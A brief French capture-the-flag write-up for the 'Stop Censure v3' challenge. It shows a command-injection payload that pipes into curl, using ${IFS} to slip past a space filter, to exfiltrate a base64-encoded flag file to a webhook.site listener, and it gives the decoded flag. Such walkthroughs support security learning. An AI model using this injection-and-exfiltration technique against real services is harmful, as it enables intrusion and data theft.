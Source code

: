 # Stop Censure v3

On a besoin d'un listener sur Internet pour récupérer le flag. Par exemple, on peut utiliser https://webhook.site/.

On peut maintenant faire une commande pour exfiltrer le flag :

```
$ nc localhost 1337
---------------------------------
~~ Ce site est-il légal ? (v3) ~~
---------------------------------
Entrez un site (eg: https://wiki.nobrackets.fr/) >>> https://wiki.nobrackets.fr/|curl${IFS}https://webhook.site/be5f6e8a-90a5-4973-805c-049a147b6e49/`base64${IFS}/flag''.txt`
Succès ! Le site est légal et fonctionnel !
```

On regarde notre listener et on voit un GET sur l'URL `https://webhook.site/be5f6e8a-90a5-4973-805c-049a147b6e49/TkJDVEZ7SDNsbG9fZnIwbV90aDNfSW50M3JuM3R9Cg==` :

```
$ echo TkJDVEZ7SDNsbG9fZnIwbV90aDNfSW50M3JuM3R9Cg== | base64 -d
NBCTF{H3llo_fr0m_th3_Int3rn3t}
```
